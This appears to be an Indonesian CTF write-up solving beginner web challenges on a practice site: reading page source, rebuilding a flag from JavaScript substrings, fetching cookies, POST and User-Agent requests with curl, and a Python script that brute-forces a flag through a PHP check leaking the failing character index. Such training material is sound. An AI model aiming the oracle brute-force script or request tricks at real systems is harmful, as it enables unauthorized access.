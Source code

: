 Website Challange CTF [Klik disini](https://rasyidmf.com/)

# WEBSITE EXPLOITATION

## Welcome To CTFR

ctrl+u / view-source, akan mendapatkan flagnya

## Substring JS

disediakan script substring

```javascript
var flag = "";
if (flag.substring(0, 4) == "CTFR") {
  if (flag.substring(2, 7) == "FR{s1") {
    if (flag.substring(5, 10) == "s1mpl") {
      if (flag.substring(9, 13) == "l3_j") {
        if (flag.substring(10, 13) == "3_j") {
          if (flag.substring(13, 18) == "4v45c") {
            if (flag.substring(18, 26) == "r1pt}") {
              console.log("Here is your flag: " + flag);
            }
          }
        }
      }
    }
  }
}
```

untuk mendapatkan flag tersebut menggunakan automation

```python
import requests
import re

r = requests.get('https://web.ctf.rasyidmf.com/chal2')
response = r.text

regex = r"flag\.substring\((.*), (.*)\) == \"(.*?)\""
matchAll = re.findall(regex, response)
flag = list('')

for match in matchAll:
    flag[int(match[0]):int(match[1])] = match[2]

print(''.join(flag))
```

## Cookie

disediakan website biasa, yang harus mendapatkan cookie website tersebut, ada 2 cara. <br>
Cara pertama menggunakan tools **Cookie Editor**
<br>
Cara kedua menggunakan command

```bash
curl --head -s https://web.ctf.rasyidmf.com/chal3/ | awk '/set-cookie: flag=/{print $2}' | sed 's/flag=//g' | python3 -c "import sys; from urllib.parse import unquote; print(unquote(sys.stdin.read()));" | sed 's/\;//g'
```

## Post Practice

harus request method post dan parameternya flag=1

```bash
curl -X POST --data "flag=1" -s https://web.ctf.rasyidmf.com/chal4/ | awk '/Flag :/{print $3}' | sed 's/<br>//g'
```

## User-Agent

website yang mengharuskan user-agentnya CTFR

```bash
 curl --header -s "User-Agent: CTFR" https://web.ctf.rasyidmf.com/chal5/ | awk '/Flag : /{print $3}'
```

## Brut3f0rc3 #1

disediakan input text yang untuk di bruteforce flagnya

Script phpnya:

```php
<?php
include 'flag.php';
    $input = @$_GET['flag'];
    if ($input != "" && strlen($input) == 36) {
        $res = "";
        for($i = 0; $i < 36; $i++) {
            if ($flag[$i] == $input[$i]) {
                $res .= $flag[$i];
            } else {
                echo "Karakter pada index <b>$i</b> : <b>$input[$i]</b> tidak sama dengan flag yang ada<br><br>";
                return;
            }
        }
        echo "Here is your flag : " . $flag . "<br><br>";
    }
?>
```

Script brutefocenya:

```python
import requests
import string
import re

def striphtml(data):
    p = re.compile(r'<.*?>')
    return p.sub('', data)

def generatePayload(index):
    lowerCase = string.ascii_lowercase
    number = string.digits
    simbol = "_"

    gabung = lowerCase + number + simbol
    arr = list(gabung)

    return arr[index]

def request(url, payload, indexError):
    regex = r"<b>(.*?)<\/b>"
    regexSuccess = r"Here is your flag : (.*)"

    r =  requests.get(url + payload)
    data = r.text
    getIndexError = re.findall(regex, data)
    getFlag = re.findall(regexSuccess, data)

    if len(getIndexError) > 0 and int(getIndexError[0]) == indexError:
        return True
    elif len(getFlag) > 0:
        return getFlag[0]
    else:
        return False

def exploit():
    url = "https://web.ctf.rasyidmf.com/chal16/?flag="
    payload = list("CTFR{" + 'a'*30 + "}")

    indexPayload = 0
    indexError = 5

    while True:
        payloadReq = ''.join(payload)
        requestPayload = request(url, payloadReq, indexError)

        if requestPayload:
            indexPayload = indexPayload + 1
            if indexPayload == 37:
                indexPayload = 0
        else:
            indexError = indexError + 1

        payload[indexError] = generatePayload(indexPayload)

        print(f"[~] Trying BruteForce : {payloadReq}", end="\r", flush=True)

        if type(requestPayload) == str:
            print(f"[+] Found Flag : {striphtml(requestPayload)}", end="\n", flush=True)
            break


if __name__ == '__main__':
    exploit()
```
